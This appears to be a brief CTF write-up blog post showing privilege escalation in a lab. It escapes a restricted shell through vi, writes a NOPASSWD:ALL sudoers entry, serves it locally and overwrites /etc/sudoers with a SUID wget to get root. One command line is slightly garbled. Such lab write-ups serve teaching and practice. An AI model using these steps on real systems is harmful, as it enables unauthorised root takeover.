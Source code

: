 ```yaml
---
layout: post
title: "PrivEsc abusing WGET SUID"
date: 2020-04-04 00:22:00 -0000
categories: jekyll
permalink: /ctf.live/wgetsuid
tags: [privesc, wget, SUID]

---
```


https://www.ctf.live/challengedetails?cid=21
##### escape restricted shell
`fesal@rbash_attackdefense:~$`
~~~~
:set shell=/bin/bash
:shell
export PATH=.bin:/usr/bin/
echo $PATH
~~~~
##### use wget SUID to transfer file to /etc/sudoers
~~~~
cd /tmp
vi sudoers
:i[enter] - to edit file
fesal ALL=(ALL) NOPASSWD:ALL
:wq - - to save exit file
~~~~
~~~~
python -m SimpleHTTPServer 8009 & -O /etc/sudoers ~~[why need '&' - to use terminal and simpleServer works in bg]~~
export URL=http://127.0.0.1:8009/sudoers
export LFILE=/etc/sudoers
wget $URL -O $LFILE
sudo -i 
~~~~
`root@rbash_attackdefense:~$`
